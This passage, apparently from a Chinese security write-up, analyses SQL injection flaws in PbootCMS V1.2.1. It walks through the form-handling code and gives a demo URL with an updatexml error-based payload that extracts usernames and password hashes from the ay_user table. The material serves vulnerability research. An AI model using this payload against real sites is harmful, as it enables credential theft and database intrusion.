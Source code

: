 ```
                    sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                }
                alert_location('提交成功！', '-1');
            } else {
                $this->log('提交表单数据失败！');
                alert_back('提交失败！');
            }
        } else {
            error('提交失败，请使用 POST 方式提交！');
        }
    } 
```

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部 POST 内容，只匹配数据库的字段，相同才会拼接到 $_data 数组

```
然后就会带入 $this->model->addForm($value->table_name, $data) 执行语句 
```

路径：PbootCMS-V1.2.1\apps\home\model\ParserModel.php

```
public function addForm($table, $data)
{
    return parent::table($table)->insert($data);
} 
```

根据 6.0 可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制 key 带入数据库查询引发注入.

## 0X01.3 前台首页注入

0x08.3.1 漏洞演示 url:

```
http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123 
```

![image](img/3fd03c0857bb7a409348a6793efe3c96.png)
